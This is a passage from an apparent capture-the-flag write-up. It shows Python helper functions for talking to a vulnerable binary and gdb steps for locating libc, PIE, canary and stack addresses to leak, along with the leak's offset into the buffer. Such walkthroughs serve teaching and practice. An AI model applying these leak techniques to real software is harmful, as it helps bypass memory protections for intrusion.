 ```python
    send('\x01')
    length = len(text)
    send(chr(length))
    send(text)

    global index
    index += length

def copy(length, offset=0):
    send('\x02')

    start = p16(offset)
    send(start)

    send(chr(length))

    global index
    index += length

def dump():
    p.send('\x03')
    return p.clean(1)
index = 0
```

You'll notice that instead of sending the numbers as strings like `'1'`, I'll send them like `b'\x01'`. This is because the binary doesn't use `atoi` to convert the numbers to bytes, so we have to send the bytes version of the number instead. I also kept track of the index for debugging purposes, and because I could :\)

Anyways, let's find a good section of the buffer to leak values from. Since we only get one leak per connection, we should find an area with lots of values. For this I'll use `gdb`.

Looking at the buffer with:

```text
pwndbg> x/136a 0x7fffffffdba0
```

I find a good area, with libc, PIE, canary and stack addresses \(PIE and stack aren't needed, I just liked getting the whole lot ;\)\):

```text
0x7fffffffdf20: 0x0     0x7ffff7b268b5 <__GI___inet_aton+165>
0x7fffffffdf30: 0x7fffffffe010  0x7fffffffdfa4
0x7fffffffdf40: 0x7ffff7ffe738  0x555555555039
0x7fffffffdf50: 0x7f00000001    0xaae3cdfe2298ff00
```

I then find how far away that is from the start of the buffer:

```text
pwndbg> p/x 0x7fffffffdf28 - 0x7fffffffdba0
$3 = 0x388 (904)
```
